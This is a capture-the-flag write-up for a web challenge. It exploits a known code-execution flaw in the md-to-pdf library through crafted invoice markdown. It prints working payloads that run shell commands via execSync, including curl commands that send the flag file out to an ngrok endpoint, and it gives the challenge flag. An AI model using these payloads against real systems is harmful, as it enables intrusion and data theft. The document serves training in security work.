


# BlinkerFluids

## Challenge

```
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr.
The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp.
Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server.
Can you help him?
```

Category: Web

Points: 300

## Writeup

Opening the challenge site we can see a list of some invoices, that are available for download in PDF format.

A button on the bottom of the list can be used to create a new invoice.



On the page for creating a new invoice we can see a rich text field, we can put in some markdown text and, on save, it will be converted into a PDF file.

Considering that markdown permits us to put some HTML code inside it, the first thing we try is to perform some basic XSS attack, but nothing seems to work.

At this point, we started to inspect the [source code](web_blinkerfluids.zip) of the site, to find something interesting.

The first thing we notice is the flag `--no-sandbox` in the pdf generation method options.

After searching for the library that is used to perform the conversion from Markdown to PDF (`md-to-pdf`), we discovered that has an RCE vulnerability affection the versions before 5.0.0.

For some tests we started the docker container locally and try the PoC payload in the references:

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

And it works!

We tried to read the local fake flag file instead of `id` and it worked!

```
---js\n((require("child_process")).execSync("cat /flag.txt > /tmp/RCE.txt"))\n---RCE
```

Now we have tried to create a reverse shell but the library or the container continues to stop the shell process.

At this point, we tried something less advanced, but still effective.

In the Dockerfile you can see that is installed curl in the container, so we used it to make a call to an our ngrok endpoint with the flag in the URL:

Create an invoice with this payload and we can see the flag on the request URL:

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt)"))\n---RCE
```


Unfortunately, some characters are not encoded correctly, so we need to encode them, maybe in base64, before sending the request.

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt | base64)"))\n---RCE
```

And now we can see the correct encoded flag:



> References:
>
> - [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)
> - [https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

## Flag

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
